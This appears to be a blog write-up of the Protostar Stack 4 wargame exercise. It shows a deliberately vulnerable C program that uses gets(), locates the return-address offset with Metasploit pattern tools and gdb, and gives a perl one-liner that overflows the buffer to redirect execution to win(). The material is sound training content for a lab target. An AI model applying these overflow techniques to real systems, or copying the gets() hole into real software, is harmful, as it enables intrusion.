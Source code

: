 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 4"
date: 2011-12-16T05:52:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


With [this](http://exploit-exercises.com/protostar/stack4) challenge, I think things really start to get fun, and more real-world.  

<!-- more -->

We are provided with the following C program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

This C app will simply read a value from user input, and store it in "buffer".  We then need to get it to somehow execute "win()". 

To get started, just like in the last challenge, I used objdump to find out where "win()" was located:

```
user@protostar:/opt/protostar/bin$ objdump -d stack4
...
080483f4 <win>:
...
```

Because we're going to need to modify the EIP of this program, we need to find where it is.  You may want to think that it would be immediately after the 64 bytes of the "buffer" array, however this is often times extra space due to null terminators, return values, and more.  So I use some tools from the [Metasploit Framework](http://metasploit.com) on another machine to find the EIP. 

First, I generate a unique string, using the pattern_create tool:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

Then I execute the vulnerable program in gdb, feeding it the unique string to the input:

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Now I know that the EIP contains the value 0x63413563.  I can go back to the Metasploit tools and run the pattern_offset tool to tell me the offset of the EIP:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

This tells me that unlike the 64 characters I would have thought, it's actually offset by 76 characters.  So now we just have to get the address of "win()" (0x080483f4) into the EIP at 76 bytes offset:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

There you have it.  We get the execution from "win()".